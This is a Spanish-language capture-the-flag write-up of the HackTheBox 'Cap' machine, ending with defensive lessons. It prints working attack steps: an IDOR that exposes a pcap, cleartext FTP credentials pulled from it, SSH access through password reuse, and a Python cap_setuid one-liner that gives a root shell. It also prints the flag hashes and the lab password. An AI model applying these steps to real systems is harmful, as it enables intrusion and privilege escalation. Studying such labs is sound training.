

# Cap

HackTheBox · Season I · Linux · Easy -  by Show@Hack4u~



<table width="100%">
  <tr><th align="left">Campo</th><th align="left">Valor</th></tr>
  <tr><td><b>TARGET IP</b></td><td>10.129.3.19</td></tr>
  <tr><td><b>DOMAIN</b></td><td>cap.htb</td></tr>
  <tr><td><b>OS</b></td><td>Linux</td></tr>
  <tr><td><b>SERVICES</b></td><td>21/FTP · 22/SSH · 80/HTTP</td></tr>
  <tr><td><b>DIFFICULTY</b></td><td>Easy</td></tr>
  <tr><td><b>TECHNIQUES</b></td><td>IDOR · FTP Credentials in PCAP · Linux Capabilities (cap_setuid)</td></tr>
</table>

<table width="100%">
  <tr><th align="left">Flag</th><th align="left">Hash</th></tr>
  <tr><td>user.txt</td><td><code>aaf24ac79e5aec40014bc6cc47c80639</code></td></tr>
  <tr><td>root.txt</td><td><code>43737038fe2d649a4b60fd02cef8449a</code></td></tr>
</table>

```
root@cap:~# echo "pwned by Show@Hack4u~" >> /etc/motd
```

---

## RECONOCIMIENTO

### Nmap — Full Port Scan

Escaneo completo de puertos con tasa agresiva para descubrir servicios expuestos. Se identificaron tres puertos abiertos: FTP en 21, SSH en 22 y HTTP en 80.

```bash
$ nmap -p- --open --min-rate 4500 -n -Pn -vvv 10.129.3.19
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

### Nmap — Service & Script Scan

Detección de versiones y scripts sobre los puertos descubiertos. Se confirma vsftpd 3.0.3 en FTP, OpenSSH 8.2p1 en SSH y Gunicorn sirviendo la web (app Python).

```bash
$ nmap -sCV -p 21,22,80 10.129.3.19
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
```

---

## ENUMERACIÓN WEB

### Security Dashboard

La aplicación web en el puerto 80 es un Security Dashboard con métricas de seguridad (eventos, intentos de login fallidos, port scans). El nombre de la máquina, "Cap", actúa como doble hint: capture de paquetes y Linux capabilities.

El dashboard muestra estadísticas en tiempo real: 1560 Security Events, 357 Failed Login Attempts y 27 Port Scans (Unique IPs).

### IDOR — Insecure Direct Object Reference

La sección de capturas de red expone una URL del tipo `/data/<id>`. Accediendo a `/data/1` se descarga la captura actual del usuario autenticado. Modificando el ID a `/data/0` se accede a la captura inicial del sistema, generada antes de cualquier interacción, lo que constituye un IDOR clásico.

```
# URL vulnerable — cambiar el ID a 0
http://10.129.3.19/data/1   <- captura del usuario actual
http://10.129.3.19/data/0   <- captura inicial del sistema [IDOR]
```

---

## ANÁLISIS DEL PCAP

### Extracción de credenciales FTP

El archivo `0.pcap` contiene tráfico FTP en texto claro. Con `tshark` se filtran los comandos FTP y se obtienen las credenciales del usuario `nathan` directamente del handshake de autenticación. El protocolo FTP transmite usuario y contraseña sin cifrado.

```bash
$ tshark -r 0.pcap -Y ftp -T fields -e ftp.request.command -e ftp.request.arg
USER  nathan
PASS  Buck3tH4TF0RM3!
SYST
PORT  192,168,196,1,212,140
LIST
RETR  notes.txt
QUIT
```

Credenciales obtenidas: `nathan / Buck3tH4TF0RM3!` — También se aprecia que el usuario descargó un archivo `notes.txt` vía FTP.

---

## ACCESO INICIAL

### SSH — User Flag

Las credenciales encontradas en el pcap son válidas también para SSH (reutilización de contraseñas). Se obtiene acceso directo como `nathan` y se lee la flag de usuario.

```bash
$ ssh nathan@10.129.3.19
nathan@10.129.3.19's password: Buck3tH4TF0RM3!

nathan@cap:~$ cat user.txt
aaf24ac79e5aec40014bc6cc47c80639
```

---

## ESCALADA DE PRIVILEGIOS

### Linux Capabilities — cap_setuid en Python

El reconocimiento post-explotación con `getcap` revela que `/usr/bin/python3.8` tiene asignada la capability `cap_setuid+eip`. Esto permite a cualquier proceso Python cambiar su UID efectivo a 0 (root) sin necesidad de sudo ni SUID.

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
```

### Explotación — os.setuid(0)

Se usa Python para llamar a `os.setuid(0)` y escalar a root, después `os.system('/bin/bash')` lanza una shell privilegiada. Un one-liner es suficiente para completar la escalada.

```bash
nathan@cap:~$ python3.8 -c "import os; os.setuid(0); os.system('/bin/bash')"

root@cap:~# cat /root/root.txt
43737038fe2d649a4b60fd02cef8449a
```

> `cap_setuid` permite modificar el UID del proceso. Al combinarlo con `os.system()` se obtiene una shell hija que hereda UID=0. No se necesitan exploits complejos.

---

## KILL CHAIN COMPLETA

| Step | Fase       | Detalle                                                                                   |
|:----:|:-----------|:------------------------------------------------------------------------------------------|
| 01   | RECON      | `nmap -p-` descubre FTP/21, SSH/22, HTTP/80. Versiones: vsftpd 3.0.3, OpenSSH 8.2p1, Gunicorn. |
| 02   | WEB ENUM   | Security Dashboard en `/data/`. Se detecta IDOR cambiando el ID a `0`.                   |
| 03   | PCAP       | Descarga de `0.pcap`. `tshark` extrae credenciales FTP en claro: `nathan / Buck3tH4TF0RM3!` |
| 04   | FOOTHOLD   | Reutilización de credenciales. `ssh nathan@target` → user.txt.                            |
| 05   | PRIVESC    | `getcap` detecta `cap_setuid` en `python3.8`. `os.setuid(0)` + `os.system("/bin/bash")` → root. |

---

## LECCIONES APRENDIDAS

| Concepto        | Detalle                                                                                              |
|:----------------|:-----------------------------------------------------------------------------------------------------|
| IDOR            | Nunca confiar en IDs secuenciales del lado del cliente. Implementar controles de acceso por objeto en el servidor. |
| FTP CLEARTEXT   | FTP transmite credenciales en texto plano. Usar SFTP o FTPS. Evitar FTP en redes no confiables.     |
| REUTILIZACIÓN   | Usar contraseñas únicas por servicio. Una credencial comprometida en FTP no debería funcionar en SSH. |
| CAPABILITIES    | `cap_setuid` en intérpretes (python, perl, ruby) es equivalente a SUID root. Auditar con `getcap -r /` periódicamente. |
| NOMBRE = HINT   | En HTB, el nombre de la máquina suele ser un hint directo. "Cap" → pcap + capabilities.             |

```
root@cap:~# exit  // Show@Hack4u~ — HackTheBox Season I
```

---

## GREETINGS

Este writeup no habría sido posible sin las personas que estuvieron en el camino.

**Hack4u** — La comunidad que construiste es el mejor sitio para aprender hacking de verdad. Cada máquina resuelta es un paso más gracias a lo que enseñáis.

*See you again — Show~*

```
root@htb:~# echo "gg" && exit
```
